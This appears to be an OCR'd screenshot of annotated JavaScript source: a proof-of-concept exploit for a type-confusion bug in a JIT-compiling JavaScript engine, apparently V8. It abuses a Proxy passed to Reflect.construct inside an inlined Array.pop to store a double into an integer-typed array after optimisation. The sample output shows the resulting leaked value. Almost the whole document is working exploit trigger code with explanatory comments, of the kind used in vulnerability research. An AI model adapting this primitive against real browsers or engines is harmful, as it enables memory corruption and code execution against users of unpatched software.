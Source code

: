 ```cpp
// Used in for loop to help JIT compiler mark the function as "hot"
ITERATIONS = 10000;
// This is used as a flag will be set to true once the optimization process is completed
// so that changing the guard will not be present when the array a is changed to
TRIGGER = false;
  
function f(a, p) {
  // Inlining of pop here to used to trigger the map inference
  // Reflect.construct is used also because of the possibility of putting Proxy Object at the last parameter
    return a.pop(Reflect.construct(function() {}, arguments, p));
}
  
let a;
// Creating the Proxy object with array a as its properties. Trigger is only done
let p = new Proxy(Object, {
    get: function() {
        if (TRIGGER) {
          //  JSArray stores IEEE754 format of 1.1 into array a thinking it is an integer
            a[2] = 1.1;
        }
        return Object.prototype;
    }
});

for (let i = 0; i < ITERATIONS; i++) {
    // make sure to trigger at the last iteration
    let isLastIteration = i == ITERATIONS - 1;
    // Creates a JSArray containing PACKED_SMI_ELEMENTS type elements  
    a = [0, 1, 2, 3, 4];
    if (isLastIteration)
        TRIGGER = true;
    // This would pop out a large number
    print(f(a, p));
}
  
 
    /*
    .
    .
    .
    4
    4
    4
    4
    4
    4
    4
    4
    4
    4
    4
    4
    4
    -858993459       <--- 0x33333333 which is lower 32 bits of the IEEE754 of 1.1
    */
```

---